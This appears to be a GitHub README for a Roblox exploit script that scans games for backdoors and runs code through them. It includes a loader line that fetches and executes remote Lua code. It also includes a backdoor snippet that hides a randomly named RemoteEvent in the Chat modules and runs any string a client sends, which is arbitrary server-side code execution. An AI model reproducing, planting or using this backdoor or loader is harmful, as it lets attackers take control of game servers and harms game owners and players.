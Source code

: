 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe).

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing them within a gui.
### Requirements
- A non skiddy brain
- Decent executor that supports filesystem functions (for config)
### Script
Just use the script below and execute it.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
